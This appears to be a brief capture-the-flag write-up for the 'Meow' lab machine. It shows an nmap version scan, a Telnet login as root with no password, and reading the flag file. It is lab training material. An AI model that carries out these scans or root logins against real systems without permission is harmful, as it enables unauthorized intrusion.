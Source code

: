 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 23/tcp - open - Telnet

2. Connect to the machine via "telnet"
```bash
telnet [ip machine]
	Meow login: root
```
--> **MACHINE PWNED!** 

3. Capture the flag
```bash
cat flag.txt
```

